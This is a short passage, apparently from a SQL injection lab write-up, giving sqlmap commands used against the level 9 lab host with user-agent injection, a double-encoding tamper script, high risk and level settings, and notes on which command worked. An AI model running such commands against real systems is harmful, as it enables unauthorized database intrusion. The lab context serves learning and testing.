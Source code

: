 

> [Note] Different sqlmap versions may require different options/flags. For example, regarding level 9:

```bash
sqlmap -u 'http://9.sqli.labs/' -p user-agent --tamper=chardoubleencode --technique=U --banner --level=3 --risk=3

or

sqlmap -r 9.sqli.labs.For.sqlmap --banner --tamper=chardoubleencode --dbms mysql --batch --union-char=els  --technique=E

# The only one that worked
# lvl 10 didnt work either
```
